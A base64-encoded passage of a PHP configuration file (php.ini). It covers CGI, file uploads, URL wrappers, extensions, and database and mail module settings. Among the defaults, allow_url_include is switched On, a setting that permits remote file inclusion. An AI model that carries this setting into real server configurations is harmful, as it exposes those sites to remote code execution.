ZXMgbm90IGN1cnJlbnRseSBzdXBwb3J0IHRoaXMgZmVhdHVyZSAoMDMvMTcvMjAwMikKOyBTZXQgdG8gMSBpZiBydW5uaW5nIHVuZGVyIElJUy4gIERlZmF1bHQgaXMgemVyby4KOyBodHRwOi8vcGhwLm5ldC9mYXN0Y2dpLmltcGVyc29uYXRlCjtmYXN0Y2dpLmltcGVyc29uYXRlID0gMQoKOyBEaXNhYmxlIGxvZ2dpbmcgdGhyb3VnaCBGYXN0Q0dJIGNvbm5lY3Rpb24uIFBIUCdzIGRlZmF1bHQgYmVoYXZpb3IgaXMgdG8gZW5hYmxlCjsgdGhpcyBmZWF0dXJlLgo7ZmFzdGNnaS5sb2dnaW5nID0gMAoKOyBjZ2kucmZjMjYxNl9oZWFkZXJzIGNvbmZpZ3VyYXRpb24gb3B0aW9uIHRlbGxzIFBIUCB3aGF0IHR5cGUgb2YgaGVhZGVycyB0bwo7IHVzZSB3aGVuIHNlbmRpbmcgSFRUUCByZXNwb25zZSBjb2RlLiBJZiBzZXQgdG8gMCwgUEhQIHNlbmRzIFN0YXR1czogaGVhZGVyIHRoYXQKOyBpcyBzdXBwb3J0ZWQgYnkgQXBhY2hlLiBXaGVuIHRoaXMgb3B0aW9uIGlzIHNldCB0byAxLCBQSFAgd2lsbCBzZW5kCjsgUkZDMjYxNiBjb21wbGlhbnQgaGVhZGVyLgo7IERlZmF1bHQgaXMgemVyby4KOyBodHRwOi8vcGhwLm5ldC9jZ2kucmZjMjYxNi1oZWFkZXJzCjtjZ2kucmZjMjYxNl9oZWFkZXJzID0gMAoKOyBjZ2kuY2hlY2tfc2hlYmFuZ19saW5lIGNvbnRyb2xzIHdoZXRoZXIgQ0dJIFBIUCBjaGVja3MgZm9yIGxpbmUgc3RhcnRpbmcgd2l0aCAjIQo7IChzaGViYW5nKSBhdCB0aGUgdG9wIG9mIHRoZSBydW5uaW5nIHNjcmlwdC4gVGhpcyBsaW5lIG1pZ2h0IGJlIG5lZWRlZCBpZiB0aGUKOyBzY3JpcHQgc3VwcG9ydCBydW5uaW5nIGJvdGggYXMgc3RhbmQtYWxvbmUgc2NyaXB0IGFuZCB2aWEgUEhQIENHSTwuIFBIUCBpbiBDR0kKOyBtb2RlIHNraXBzIHRoaXMgbGluZSBhbmQgaWdub3JlcyBpdHMgY29udGVudCBpZiB0aGlzIGRpcmVjdGl2ZSBpcyB0dXJuZWQgb24uCjsgaHR0cDovL3BocC5uZXQvY2dpLmNoZWNrLXNoZWJhbmctbGluZQo7Y2dpLmNoZWNrX3NoZWJhbmdfbGluZT0xCgo7Ozs7Ozs7Ozs7Ozs7Ozs7CjsgRmlsZSBVcGxvYWRzIDsKOzs7Ozs7Ozs7Ozs7Ozs7OwoKOyBXaGV0aGVyIHRvIGFsbG93IEhUVFAgZmlsZSB1cGxvYWRzLgo7IGh0dHA6Ly9waHAubmV0L2ZpbGUtdXBsb2FkcwpmaWxlX3VwbG9hZHMgPSBPbgoKOyBUZW1wb3JhcnkgZGlyZWN0b3J5IGZvciBIVFRQIHVwbG9hZGVkIGZpbGVzICh3aWxsIHVzZSBzeXN0ZW0gZGVmYXVsdCBpZiBub3QKOyBzcGVjaWZpZWQpLgo7IGh0dHA6Ly9waHAubmV0L3VwbG9hZC10bXAtZGlyCjt1cGxvYWRfdG1wX2RpciA9Cgo7IE1heGltdW0gYWxsb3dlZCBzaXplIGZvciB1cGxvYWRlZCBmaWxlcy4KOyBodHRwOi8vcGhwLm5ldC91cGxvYWQtbWF4LWZpbGVzaXplCnVwbG9hZF9tYXhfZmlsZXNpemUgPSAyTQoKOyBNYXhpbXVtIG51bWJlciBvZiBmaWxlcyB0aGF0IGNhbiBiZSB1cGxvYWRlZCB2aWEgYSBzaW5nbGUgcmVxdWVzdAptYXhfZmlsZV91cGxvYWRzID0gMjAKCjs7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IEZvcGVuIHdyYXBwZXJzIDsKOzs7Ozs7Ozs7Ozs7Ozs7Ozs7Cgo7IFdoZXRoZXIgdG8gYWxsb3cgdGhlIHRyZWF0bWVudCBvZiBVUkxzIChsaWtlIGh0dHA6Ly8gb3IgZnRwOi8vKSBhcyBmaWxlcy4KOyBodHRwOi8vcGhwLm5ldC9hbGxvdy11cmwtZm9wZW4KYWxsb3dfdXJsX2ZvcGVuID0gT24KCjsgV2hldGhlciB0byBhbGxvdyBpbmNsdWRlL3JlcXVpcmUgdG8gb3BlbiBVUkxzIChsaWtlIGh0dHA6Ly8gb3IgZnRwOi8vKSBhcyBmaWxlcy4KOyBodHRwOi8vcGhwLm5ldC9hbGxvdy11cmwtaW5jbHVkZQphbGxvd191cmxfaW5jbHVkZSA9IE9uCgo7IERlZmluZSB0aGUgYW5vbnltb3VzIGZ0cCBwYXNzd29yZCAoeW91ciBlbWFpbCBhZGRyZXNzKS4gUEhQJ3MgZGVmYXVsdCBzZXR0aW5nCjsgZm9yIHRoaXMgaXMgZW1wdHkuCjsgaHR0cDovL3BocC5uZXQvZnJvbQo7ZnJvbT0iam9obkBkb2UuY29tIgoKOyBEZWZpbmUgdGhlIFVzZXItQWdlbnQgc3RyaW5nLiBQSFAncyBkZWZhdWx0IHNldHRpbmcgZm9yIHRoaXMgaXMgZW1wdHkuCjsgaHR0cDovL3BocC5uZXQvdXNlci1hZ2VudAo7dXNlcl9hZ2VudD0iUEhQIgoKOyBEZWZhdWx0IHRpbWVvdXQgZm9yIHNvY2tldCBiYXNlZCBzdHJlYW1zIChzZWNvbmRzKQo7IGh0dHA6Ly9waHAubmV0L2RlZmF1bHQtc29ja2V0LXRpbWVvdXQKZGVmYXVsdF9zb2NrZXRfdGltZW91dCA9IDYwCgo7IElmIHlvdXIgc2NyaXB0cyBoYXZlIHRvIGRlYWwgd2l0aCBmaWxlcyBmcm9tIE1hY2ludG9zaCBzeXN0ZW1zLAo7IG9yIHlvdSBhcmUgcnVubmluZyBvbiBhIE1hYyBhbmQgbmVlZCB0byBkZWFsIHdpdGggZmlsZXMgZnJvbQo7IHVuaXggb3Igd2luMzIgc3lzdGVtcywgc2V0dGluZyB0aGlzIGZsYWcgd2lsbCBjYXVzZSBQSFAgdG8KOyBhdXRvbWF0aWNhbGx5IGRldGVjdCB0aGUgRU9MIGNoYXJhY3RlciBpbiB0aG9zZSBmaWxlcyBzbyB0aGF0CjsgZmdldHMoKSBhbmQgZmlsZSgpIHdpbGwgd29yayByZWdhcmRsZXNzIG9mIHRoZSBzb3VyY2Ugb2YgdGhlIGZpbGUuCjsgaHR0cDovL3BocC5uZXQvYXV0by1kZXRlY3QtbGluZS1lbmRpbmdzCjthdXRvX2RldGVjdF9saW5lX2VuZGluZ3MgPSBPZmYKCjs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBEeW5hbWljIEV4dGVuc2lvbnMgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Cgo7IElmIHlvdSB3aXNoIHRvIGhhdmUgYW4gZXh0ZW5zaW9uIGxvYWRlZCBhdXRvbWF0aWNhbGx5LCB1c2UgdGhlIGZvbGxvd2luZwo7IHN5bnRheDoKOwo7ICAgZXh0ZW5zaW9uPW1vZHVsZW5hbWUKOwo7IEZvciBleGFtcGxlOgo7CjsgICBleHRlbnNpb249bXlzcWxpCjsKOyBXaGVuIHRoZSBleHRlbnNpb24gbGlicmFyeSB0byBsb2FkIGlzIG5vdCBsb2NhdGVkIGluIHRoZSBkZWZhdWx0IGV4dGVuc2lvbgo7IGRpcmVjdG9yeSwgWW91IG1heSBzcGVjaWZ5IGFuIGFic29sdXRlIHBhdGggdG8gdGhlIGxpYnJhcnkgZmlsZToKOwo7ICAgZXh0ZW5zaW9uPS9wYXRoL3RvL2V4dGVuc2lvbi9teXNxbGkuc28KOwo7IE5vdGUgOiBUaGUgc3ludGF4IHVzZWQgaW4gcHJldmlvdXMgUEhQIHZlcnNpb25zICgnZXh0ZW5zaW9uPTxleHQ+LnNvJyBhbmQKOyAnZXh0ZW5zaW9uPSdwaHBfPGV4dD4uZGxsJykgaXMgc3VwcG9ydGVkIGZvciBsZWdhY3kgcmVhc29ucyBhbmQgbWF5IGJlCjsgZGVwcmVjYXRlZCBpbiBhIGZ1dHVyZSBQSFAgbWFqb3IgdmVyc2lvbi4gU28sIHdoZW4gaXQgaXMgcG9zc2libGUsIHBsZWFzZQo7IG1vdmUgdG8gdGhlIG5ldyAoJ2V4dGVuc2lvbj08ZXh0Pikgc3ludGF4Lgo7CjsgTm90ZXMgZm9yIFdpbmRvd3MgZW52aXJvbm1lbnRzIDoKOwo7IC0gTWFueSBETEwgZmlsZXMgYXJlIGxvY2F0ZWQgaW4gdGhlIGV4dGVuc2lvbnMvIChQSFAgNCkgb3IgZXh0LyAoUEhQIDUrKQo7ICAgZXh0ZW5zaW9uIGZvbGRlcnMgYXMgd2VsbCBhcyB0aGUgc2VwYXJhdGUgUEVDTCBETEwgZG93bmxvYWQgKFBIUCA1KykuCjsgICBCZSBzdXJlIHRvIGFwcHJvcHJpYXRlbHkgc2V0IHRoZSBleHRlbnNpb25fZGlyIGRpcmVjdGl2ZS4KOwo7ZXh0ZW5zaW9uPWJ6Mgo7ZXh0ZW5zaW9uPWN1cmwKO2V4dGVuc2lvbj1mZmkKO2V4dGVuc2lvbj1mdHAKO2V4dGVuc2lvbj1maWxlaW5mbwo7ZXh0ZW5zaW9uPWdkMgo7ZXh0ZW5zaW9uPWdldHRleHQKO2V4dGVuc2lvbj1nbXAKO2V4dGVuc2lvbj1pbnRsCjtleHRlbnNpb249aW1hcAo7ZXh0ZW5zaW9uPWxkYXAKO2V4dGVuc2lvbj1tYnN0cmluZwo7ZXh0ZW5zaW9uPWV4aWYgICAgICA7IE11c3QgYmUgYWZ0ZXIgbWJzdHJpbmcgYXMgaXQgZGVwZW5kcyBvbiBpdAo7ZXh0ZW5zaW9uPW15c3FsaQo7ZXh0ZW5zaW9uPW9jaThfMTJjICA7IFVzZSB3aXRoIE9yYWNsZSBEYXRhYmFzZSAxMmMgSW5zdGFudCBDbGllbnQKO2V4dGVuc2lvbj1vZGJjCjtleHRlbnNpb249b3BlbnNzbAo7ZXh0ZW5zaW9uPXBkb19maXJlYmlyZAo7ZXh0ZW5zaW9uPXBkb19teXNxbAo7ZXh0ZW5zaW9uPXBkb19vY2kKO2V4dGVuc2lvbj1wZG9fb2RiYwo7ZXh0ZW5zaW9uPXBkb19wZ3NxbAo7ZXh0ZW5zaW9uPXBkb19zcWxpdGUKO2V4dGVuc2lvbj1wZ3NxbAo7ZXh0ZW5zaW9uPXNobW9wCgo7IFRoZSBNSUJTIGRhdGEgYXZhaWxhYmxlIGluIHRoZSBQSFAgZGlzdHJpYnV0aW9uIG11c3QgYmUgaW5zdGFsbGVkLgo7IFNlZSBodHRwOi8vd3d3LnBocC5uZXQvbWFudWFsL2VuL3NubXAuaW5zdGFsbGF0aW9uLnBocAo7ZXh0ZW5zaW9uPXNubXAKCjtleHRlbnNpb249c29hcAo7ZXh0ZW5zaW9uPXNvY2tldHMKO2V4dGVuc2lvbj1zb2RpdW0KO2V4dGVuc2lvbj1zcWxpdGUzCjtleHRlbnNpb249dGlkeQo7ZXh0ZW5zaW9uPXhtbHJwYwo7ZXh0ZW5zaW9uPXhzbAoKOzs7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IE1vZHVsZSBTZXR0aW5ncyA7Cjs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKCltDTEkgU2VydmVyXQo7IFdoZXRoZXIgdGhlIENMSSB3ZWIgc2VydmVyIHVzZXMgQU5TSSBjb2xvciBjb2RpbmcgaW4gaXRzIHRlcm1pbmFsIG91dHB1dC4KY2xpX3NlcnZlci5jb2xvciA9IE9uCgpbRGF0ZV0KOyBEZWZpbmVzIHRoZSBkZWZhdWx0IHRpbWV6b25lIHVzZWQgYnkgdGhlIGRhdGUgZnVuY3Rpb25zCjsgaHR0cDovL3BocC5uZXQvZGF0ZS50aW1lem9uZQo7ZGF0ZS50aW1lem9uZSA9Cgo7IGh0dHA6Ly9waHAubmV0L2RhdGUuZGVmYXVsdC1sYXRpdHVkZQo7ZGF0ZS5kZWZhdWx0X2xhdGl0dWRlID0gMzEuNzY2NwoKOyBodHRwOi8vcGhwLm5ldC9kYXRlLmRlZmF1bHQtbG9uZ2l0dWRlCjtkYXRlLmRlZmF1bHRfbG9uZ2l0dWRlID0gMzUuMjMzMwoKOyBodHRwOi8vcGhwLm5ldC9kYXRlLnN1bnJpc2UtemVuaXRoCjtkYXRlLnN1bnJpc2VfemVuaXRoID0gOTAuNTgzMzMzCgo7IGh0dHA6Ly9waHAubmV0L2RhdGUuc3Vuc2V0LXplbml0aAo7ZGF0ZS5zdW5zZXRfemVuaXRoID0gOTAuNTgzMzMzCgpbZmlsdGVyXQo7IGh0dHA6Ly9waHAubmV0L2ZpbHRlci5kZWZhdWx0CjtmaWx0ZXIuZGVmYXVsdCA9IHVuc2FmZV9yYXcKCjsgaHR0cDovL3BocC5uZXQvZmlsdGVyLmRlZmF1bHQtZmxhZ3MKO2ZpbHRlci5kZWZhdWx0X2ZsYWdzID0KCltpY29udl0KOyBVc2Ugb2YgdGhpcyBJTkkgZW50cnkgaXMgZGVwcmVjYXRlZCwgdXNlIGdsb2JhbCBpbnB1dF9lbmNvZGluZyBpbnN0ZWFkLgo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgb3IgaW5wdXRfZW5jb2Rpbmcgb3IgaWNvbnYuaW5wdXRfZW5jb2RpbmcgaXMgdXNlZC4KOyBUaGUgcHJlY2VkZW5jZSBpczogZGVmYXVsdF9jaGFyc2V0IDwgaW5wdXRfZW5jb2RpbmcgPCBpY29udi5pbnB1dF9lbmNvZGluZwo7aWNvbnYuaW5wdXRfZW5jb2RpbmcgPQoKOyBVc2Ugb2YgdGhpcyBJTkkgZW50cnkgaXMgZGVwcmVjYXRlZCwgdXNlIGdsb2JhbCBpbnRlcm5hbF9lbmNvZGluZyBpbnN0ZWFkLgo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgb3IgaW50ZXJuYWxfZW5jb2Rpbmcgb3IgaWNvbnYuaW50ZXJuYWxfZW5jb2RpbmcgaXMgdXNlZC4KOyBUaGUgcHJlY2VkZW5jZSBpczogZGVmYXVsdF9jaGFyc2V0IDwgaW50ZXJuYWxfZW5jb2RpbmcgPCBpY29udi5pbnRlcm5hbF9lbmNvZGluZwo7aWNvbnYuaW50ZXJuYWxfZW5jb2RpbmcgPQoKOyBVc2Ugb2YgdGhpcyBJTkkgZW50cnkgaXMgZGVwcmVjYXRlZCwgdXNlIGdsb2JhbCBvdXRwdXRfZW5jb2RpbmcgaW5zdGVhZC4KOyBJZiBlbXB0eSwgZGVmYXVsdF9jaGFyc2V0IG9yIG91dHB1dF9lbmNvZGluZyBvciBpY29udi5vdXRwdXRfZW5jb2RpbmcgaXMgdXNlZC4KOyBUaGUgcHJlY2VkZW5jZSBpczogZGVmYXVsdF9jaGFyc2V0IDwgb3V0cHV0X2VuY29kaW5nIDwgaWNvbnYub3V0cHV0X2VuY29kaW5nCjsgVG8gdXNlIGFuIG91dHB1dCBlbmNvZGluZyBjb252ZXJzaW9uLCBpY29udidzIG91dHB1dCBoYW5kbGVyIG11c3QgYmUgc2V0Cjsgb3RoZXJ3aXNlIG91dHB1dCBlbmNvZGluZyBjb252ZXJzaW9uIGNhbm5vdCBiZSBwZXJmb3JtZWQuCjtpY29udi5vdXRwdXRfZW5jb2RpbmcgPQoKW2ltYXBdCjsgcnNoL3NzaCBsb2dpbnMgYXJlIGRpc2FibGVkIGJ5IGRlZmF1bHQuIFVzZSB0aGlzIElOSSBlbnRyeSBpZiB5b3Ugd2FudCB0bwo7IGVuYWJsZSB0aGVtLiBOb3RlIHRoYXQgdGhlIElNQVAgbGlicmFyeSBkb2VzIG5vdCBmaWx0ZXIgbWFpbGJveCBuYW1lcyBiZWZvcmUKOyBwYXNzaW5nIHRoZW0gdG8gcnNoL3NzaCBjb21tYW5kLCB0aHVzIHBhc3NpbmcgdW50cnVzdGVkIGRhdGEgdG8gdGhpcyBmdW5jdGlvbgo7IHdpdGggcnNoL3NzaCBlbmFibGVkIGlzIGluc2VjdXJlLgo7aW1hcC5lbmFibGVfaW5zZWN1cmVfcnNoPTAKCltpbnRsXQo7aW50bC5kZWZhdWx0X2xvY2FsZSA9CjsgVGhpcyBkaXJlY3RpdmUgYWxsb3dzIHlvdSB0byBwcm9kdWNlIFBIUCBlcnJvcnMgd2hlbiBzb21lIGVycm9yCjsgaGFwcGVucyB3aXRoaW4gaW50bCBmdW5jdGlvbnMuIFRoZSB2YWx1ZSBpcyB0aGUgbGV2ZWwgb2YgdGhlIGVycm9yIHByb2R1Y2VkLgo7IERlZmF1bHQgaXMgMCwgd2hpY2ggZG9lcyBub3QgcHJvZHVjZSBhbnkgZXJyb3JzLgo7aW50bC5lcnJvcl9sZXZlbCA9IEVfV0FSTklORwo7aW50bC51c2VfZXhjZXB0aW9ucyA9IDAKCltzcWxpdGUzXQo7IERpcmVjdG9yeSBwb2ludGluZyB0byBTUUxpdGUzIGV4dGVuc2lvbnMKOyBodHRwOi8vcGhwLm5ldC9zcWxpdGUzLmV4dGVuc2lvbi1kaXIKO3NxbGl0ZTMuZXh0ZW5zaW9uX2RpciA9Cgo7IFNRTGl0ZSBkZWZlbnNpdmUgbW9kZSBmbGFnIChvbmx5IGF2YWlsYWJsZSBmcm9tIFNRTGl0ZSAzLjI2KykKOyBXaGVuIHRoZSBkZWZlbnNpdmUgZmxhZyBpcyBlbmFibGVkLCBsYW5ndWFnZSBmZWF0dXJlcyB0aGF0IGFsbG93IG9yZGluYXJ5CjsgU1FMIHRvIGRlbGliZXJhdGVseSBjb3JydXB0IHRoZSBkYXRhYmFzZSBmaWxlIGFyZSBkaXNhYmxlZC4gVGhpcyBmb3JiaWRzCjsgd3JpdGluZyBkaXJlY3RseSB0byB0aGUgc2NoZW1hLCBzaGFkb3cgdGFibGVzIChlZy4gRlRTIGRhdGEgdGFibGVzKSwgb3IKOyB0aGUgc3FsaXRlX2RicGFnZSB2aXJ0dWFsIHRhYmxlLgo7IGh0dHBzOi8vd3d3LnNxbGl0ZS5vcmcvYzNyZWYvY19kYmNvbmZpZ19kZWZlbnNpdmUuaHRtbAo7IChmb3Igb2xkZXIgU1FMaXRlIHZlcnNpb25zLCB0aGlzIGZsYWcgaGFzIG5vIHVzZSkKO3NxbGl0ZTMuZGVmZW5zaXZlID0gMQoKW1BjcmVdCjsgUENSRSBsaWJyYXJ5IGJhY2t0cmFja2luZyBsaW1pdC4KOyBodHRwOi8vcGhwLm5ldC9wY3JlLmJhY2t0cmFjay1saW1pdAo7cGNyZS5iYWNrdHJhY2tfbGltaXQ9MTAwMDAwCgo7IFBDUkUgbGlicmFyeSByZWN1cnNpb24gbGltaXQuCjsgUGxlYXNlIG5vdGUgdGhhdCBpZiB5b3Ugc2V0IHRoaXMgdmFsdWUgdG8gYSBoaWdoIG51bWJlciB5b3UgbWF5IGNvbnN1bWUgYWxsCjsgdGhlIGF2YWlsYWJsZSBwcm9jZXNzIHN0YWNrIGFuZCBldmVudHVhbGx5IGNyYXNoIFBIUCAoZHVlIHRvIHJlYWNoaW5nIHRoZQo7IHN0YWNrIHNpemUgbGltaXQgaW1wb3NlZCBieSB0aGUgT3BlcmF0aW5nIFN5c3RlbSkuCjsgaHR0cDovL3BocC5uZXQvcGNyZS5yZWN1cnNpb24tbGltaXQKO3BjcmUucmVjdXJzaW9uX2xpbWl0PTEwMDAwMAoKOyBFbmFibGVzIG9yIGRpc2FibGVzIEpJVCBjb21waWxhdGlvbiBvZiBwYXR0ZXJucy4gVGhpcyByZXF1aXJlcyB0aGUgUENSRQo7IGxpYnJhcnkgdG8gYmUgY29tcGlsZWQgd2l0aCBKSVQgc3VwcG9ydC4KO3BjcmUuaml0PTEKCltQZG9dCjsgV2hldGhlciB0byBwb29sIE9EQkMgY29ubmVjdGlvbnMuIENhbiBiZSBvbmUgb2YgInN0cmljdCIsICJyZWxheGVkIiBvciAib2ZmIgo7IGh0dHA6Ly9waHAubmV0L3Bkby1vZGJjLmNvbm5lY3Rpb24tcG9vbGluZwo7cGRvX29kYmMuY29ubmVjdGlvbl9wb29saW5nPXN0cmljdAoKO3Bkb19vZGJjLmRiMl9pbnN0YW5jZV9uYW1lCgpbUGRvX215c3FsXQo7IERlZmF1bHQgc29ja2V0IG5hbWUgZm9yIGxvY2FsIE15U1FMIGNvbm5lY3RzLiAgSWYgZW1wdHksIHVzZXMgdGhlIGJ1aWx0LWluCjsgTXlTUUwgZGVmYXVsdHMuCnBkb19teXNxbC5kZWZhdWx0X3NvY2tldD0KCltQaGFyXQo7IGh0dHA6Ly9waHAubmV0L3BoYXIucmVhZG9ubHkKO3BoYXIucmVhZG9ubHkgPSBPbgoKOyBodHRwOi8vcGhwLm5ldC9waGFyLnJlcXVpcmUtaGFzaAo7cGhhci5yZXF1aXJlX2hhc2ggPSBPbgoKO3BoYXIuY2FjaGVfbGlzdCA9CgpbbWFpbCBmdW5jdGlvbl0KOyBGb3IgV2luMzIgb25seS4KOyBodHRwOi8vcGhwLm5ldC9zbXRwClNNVFAgPSBsb2NhbGhvc3QKOyBodHRwOi8vcGhwLm5ldC9zbXRwLXBvcnQKc210cF9wb3J0ID0gMjUKCjsgRm9yIFdpbjMyIG9ubHkuCjsgaHR0cDovL3BocC5uZXQvc2VuZG1haWwtZnJvbQo7c2VuZG1haWxfZnJvbSA9IG1lQGV4YW1wbGUuY29tCgo7IEZvciBVbml4IG9ubHkuICBZb3UgbWF5IHN1cHBseSBhcmd1bWVudHMgYXMgd2VsbCAoZGVmYXVsdDogInNlbmRtYWlsIC10IC1pIikuCjsgaHR0cDovL3BocC5uZXQvc2VuZG1haWwtcGF0aAo7c2VuZG1haWxfcGF0aCA9Cgo7IEZvcmNlIHRoZSBhZGRpdGlvbiBvZiB0aGUgc3BlY2lmaWVkIHBhcmFtZXRlcnMgdG8gYmUgcGFzc2VkIGFzIGV4dHJhIHBhcmFtZXRlcnMKOyB0byB0aGUgc2VuZG1haWwgYmluYXJ5LiBUaGVzZSBwYXJhbWV0ZXJzIHdpbGwgYWx3YXlzIHJlcGxhY2UgdGhlIHZhbHVlIG9mCjsgdGhlIDV0aCBwYXJhbWV0ZXIgdG8gbWFpbCgpLgo7bWFpbC5mb3JjZV9leHRyYV9wYXJhbWV0ZXJzID0KCjsgQWRkIFgtUEhQLU9yaWdpbmF0aW5nLVNjcmlwdDogdGhhdCB3aWxsIGluY2x1ZGUgdWlkIG9mIHRoZSBzY3JpcHQgZm9sbG93ZWQgYnkgdGhlIGZpbGVuYW1lCm1haWwuYWRkX3hfaGVhZGVyID0gT2ZmCgo7IFRoZSBwYXRoIHRvIGEgbG9nIGZpbGUgdGhhdCB3aWxsIGxvZyBhbGwgbWFpbCgpIGNhbGxzLiBMb2cgZW50cmllcyBpbmNsdWRlCjsgdGhlIGZ1bGwgcGF0aCBvZiB0aGUgc2NyaXB0LCBsaW5lIG51bWJlciwgVG8gYWRkcmVzcyBhbmQgaGVhZGVycy4KO21haWwubG9nID0KOyBMb2cgbWFpbCB0byBzeXNsb2cgKEV2ZW50IExvZyBvbiBXaW5kb3dzKS4KO21haWwubG9nID0gc3lzbG9nCgpbT0RCQ10KOyBodHRwOi8vcGhwLm5ldC9vZGJjLmRlZmF1bHQtZGIKO29kYmMuZGVmYXVsdF9kYiAgICA9ICBOb3QgeWV0IGltcGxlbWVudGVkCgo7IGh0dHA6Ly9waHAubmV0L29kYmMuZGVmYXVsdC11c2VyCjtvZGJjLmRlZmF1bHRfdXNlciAgPSAgTm90IHlldCBpbXBsZW1lbnRlZAoKOyBodHRwOi8vcGhwLm5ldC9vZGJjLmRlZmF1bHQtcHcKO29kYmMuZGVmYXVsdF9wdyAgICA9ICBOb3QgeWV0IGltcGxlbWVudGVkCgo7IENvbnRyb2xzIHRoZSBPREJDIGN1cnNvciBtb2RlbC4KOyBEZWZhdWx0OiBTUUxfQ1VSU09SX1NUQVRJQyAoZGVmYXVsdCkuCjtvZGJjLmRlZmF1bHRfY3Vyc29ydHlwZQoKOyBBbGxvdyBvciBwcmV2ZW50IHBlcnNpc3RlbnQgbGlua3MuCjsgaHR0cDovL3BocC5uZXQvb2RiYy5hbGxvdy1wZXJzaXN0ZW50Cm9kYmMuYWxsb3dfcGVyc2lzdGVudCA9IE9uCgo7IENoZWNrIHRoYXQgYSBjb25uZWN0aW9uIGlzIHN0aWxsIHZhbGlkIGJlZm9yZSByZXVzZS4KOyBodHRwOi8vcGhwLm5ldC9vZGJjLmNoZWNrLXBlcnNpc3RlbnQKb2RiYy5jaGVja19wZXJzaXN0ZW50ID0gT24KCjsgTWF4aW11bSBudW1iZXIgb2YgcGVyc2lzdGVudCBsaW5rcy4gIC0xIG1lYW5zIG5vIGxpbWl0Lgo7IGh0dHA6Ly9waHAubmV0L29kYmMubWF4LXBlcnNpc3RlbnQKb2RiYy5tYXhfcGVyc2lzdGVudCA9IC0xCgo7IE1heGltdW0gbnVtYmVyIG9mIGxpbmtzIChwZXJzaXN0ZW50ICsgbm9uLXBlcnNpc3RlbnQpLiAgLTEgbWVhbnMgbm8gbGltaXQuCjsgaHR0cDovL3BocC5uZXQvb2RiYy5tYXgtbGlua3MKb2RiYy5tYXhfbGlua3MgPSAtMQoKOyBIYW5kbGluZyBvZiBMT05HIGZpZWxkcy4gIFJldHVybnMgbnVtYmVyIG9mIGJ5dGVzIHRvIHZhcmlhYmxlcy4gIDAgbWVhbnMKOyBwYXNzdGhydS4KOyBodHRwOi8vcGhwLm5ldC9vZGJjLmRlZmF1bHRscmwKb2RiYy5kZWZhdWx0bHJsID0gNDA5NgoKOyBIYW5kbGluZyBvZiBiaW5hcnkgZGF0YS4gIDAgbWVhbnMgcGFzc3RocnUsIDEgcmV0dXJuIGFzIGlzLCAyIGNvbnZlcnQgdG8gY2hhci4KOyBTZWUgdGhlIGRvY3VtZW50YXRpb24gb24gb2RiY19iaW5tb2RlIGFuZCBvZGJjX2xvbmdyZWFkbGVuIGZvciBhbiBleHBsYW5hdGlvbgo7IG9mIG9kYmMuZGVmYXVsdGxybCBhbmQgb2RiYy5kZWZhdWx0YmlubW9kZQo7IGh0dHA6Ly9waHAubmV0L29kYmMuZGVmYXVsdGJpbm1vZGUKb2RiYy5kZWZhdWx0YmlubW9kZSA9IDEKCltNeVNRTGldCgo7IE1heGltdW0gbnVtYmVyIG9mIHBlcnNpc3RlbnQgbGlua3MuICAtMSBtZWFucyBubyBsaW1pdC4KOyBodHRwOi8vcGhwLm5ldC9teXNxbGkubWF4LXBlcnNpc3RlbnQKbXlzcWxpLm1heF9wZXJzaXN0ZW50ID0gLTEKCjsgQWxsb3cgYWNjZXNzaW5nLCBmcm9tIFBIUCdzIHBlcnNwZWN0aXZlLCBsb2NhbCBmaWxlcyB3aXRoIExPQUQgREFUQSBzdGF0ZW1lbnRzCjsgaHR0cDovL3BocC5uZXQvbXlzcWxpLmFsbG93X2xvY2FsX2luZmlsZQo7bXlzcWxpLmFsbG93X2xvY2FsX2luZmlsZSA9IE9uCgo7IEFsbG93IG9yIHByZXZlbnQgcGVyc2lzdGVudCBsaW5rcy4KOyBodHRwOi8vcGhwLm5ldC9teXNxbGkuYWxsb3ctcGVyc2lzdGVudApteXNxbGkuYWxsb3dfcGVyc2lzdGVudCA9IE9uCgo7IE1heGltdW0gbnVtYmVyIG9mIGxpbmtzLiAgLTEgbWVhbnMgbm8gbGltaXQuCjsgaHR0cDovL3BocC5uZXQvbXlzcWxpLm1heC1saW5rcwpteXNxbGkubWF4X2xpbmtzID0gLTEKCjsgRGVmYXVsdCBwb3J0IG51bWJlciBmb3IgbXlzcWxpX2Nvbm5lY3QoKS4gIElmIHVuc2V0LCBteXNxbGlfY29ubmVjdCgpIHdpbGwgdXNlCjsgdGhlICRNWVNRTF9UQ1BfUE9SVCBvciB0aGUgbXlzcWwtdGNwIGVudHJ5IGluIC9ldGMvc2VydmljZXMgb3IgdGhlCjsgY29tcGlsZS10aW1lIHZhbHVlIGRlZmluZWQgTVlTUUxfUE9SVCAoaW4gdGhhdCBvcmRlcikuICBXaW4zMiB3aWxsIG9ubHkgbG9vawo7IGF0IE1ZU1FMX1BPUlQuCjsgaHR0cDovL3BocC5uZXQvbXlzcWxpLmRlZmF1bHQtcG9ydApteXNxbGkuZGVmYXVsdF9wb3J0ID0gMzMwNgoKOyBEZWZhdWx0IHNvY2tldCBuYW1lIGZvciBsb2NhbCBNeVNRTCBjb25uZWN0cy4gIElmIGVtcHR5LCB1c2VzIHRoZSBidWlsdC1pbgo7IE15U1FMIGRlZmF1bHRzLgo7IGh0dHA6Ly9waHAubmV0L215c3FsaS5kZWZhdWx0LXNvY2tldApteXNxbGkuZGVmYXVsdF9zb2NrZXQgPQoKOyBEZWZhdWx0IGhvc3QgZm9yIG15c3FsaV9jb25uZWN0KCkgKGRvZXNuJ3QgYXBwbHkgaW4gc2FmZSBtb2RlKS4KOyBodHRwOi8vcGhwLm5ldC9teXNxbGkuZGVmYXVsdC1ob3N0Cm15c3FsaS5kZWZhdWx0X2hvc3QgPQoKOyBEZWZhdWx0IHVzZXIgZm9yIG15c3FsaV9jb25uZWN0KCkgKGRvZXNuJ3QgYXBwbHkgaW4gc2FmZSBtb2RlKS4KOyBodHRwOi8vcGhwLm5ldC9teXNxbGkuZGVmYXVsdC11c2VyCm15c3FsaS5kZWZhdWx0X3VzZXIgPQoKOyBEZWZhdWx0IHBhc3N3b3JkIGZvciBteXNxbGlfY29ubmVjdCgpIChkb2Vzbid0IGFwcGx